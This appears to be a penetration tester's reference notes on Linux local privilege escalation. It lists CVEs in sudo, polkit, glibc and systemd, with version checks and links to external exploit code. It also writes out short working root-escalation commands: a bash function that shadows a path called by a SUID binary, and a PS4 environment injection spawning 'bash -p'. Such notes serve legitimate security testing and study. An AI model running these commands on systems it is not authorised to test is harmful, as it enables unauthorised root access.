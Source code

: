 ```yaml
---
title: Linux Userspace Privilege Escalation Exploits
---
```


[[notes/linux/escalation]] trough userspace exploits.

List installed packages and their versions.

~~~ bash
dpkg -l || rpm -qa
~~~

# Sudoedit Heap Overflow CVE-2021-3156

Affects all `sudo` legacy versions from 1.8.2 to 1.8.31p2 and all stable versions from 1.9.0 to 1.9.5p1.
Exploitation does not require membership in the `sudo` / `wheel` group.

Check.

~~~ bash
sudoedit -s '\' `perl -e 'print "A" x 65536'`
sudo -s '\\' `perl -e 'print "A" x 65536'`
~~~

# Polkit CVE-2021-3560

Affects polkit >= 0.113 and >= 0.105-26 on Debian.

The exploit [CVE-2021-3560.py](http://web.archive.org/web/20230729182550/https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py) was successfully tested against polkit 0.115-6 on Cent OS 8.

Check version.

~~~ bash
grep -aF polkitd- /usr/lib/polkit-1/polkitd
~~~

References:

- [Privilege escalation with polkit: How to get root on Linux with a seven-year-old bug](http://web.archive.org/web/20230707035106/https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)

# PwnKit CVE-2021-4034

Untested exploits:

- [blasty-vs-pkexec.c](http://web.archive.org/web/20221006105914/https://haxx.in/files/blasty-vs-pkexec.c)
- [blasty-vs-pkexec2.c](http://web.archive.org/web/20221006105959/https://haxx.in/files/blasty-vs-pkexec2.c)

References:

- [PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](http://web.archive.org/web/20221006110059/https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

# Looney Tunables CVE-2023-4911

Untested exploits:

- [gnu-acme.py](https://haxx.in/files/gnu-acme.py)
- [github.com/leesh3288/cve-2023-4911](https://github.com/leesh3288/CVE-2023-4911)

# sudo systemctl status

Affects Systemd before v247.

References:

- [CVE-2023–26604](http://web.archive.org/web/20230406145953/https://scribe.rip/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7)

# Bash Function with Slashes

With Bash < 4.2-048 and a SUID binary that calls another program by absolute path, create a bash function named like the path.

~~~
$ strings /usr/local/bin/suid-binary
...
/usr/sbin/service apache2 start
...
$ function /usr/sbin/service { /bin/bash -p; }
$ export -f /usr/sbin/service
$ /usr/local/bin/suid-binary
~~~

# Bash PS4

With Bash < 4.4 and a SUID program evaluating/running bash scripts the `PS4` environment variable is inherited.

~~~ bash
env -i SHELLOPTS=xtrace PS4='$(bash -p)' /usr/local/bin/pwn-me
~~~
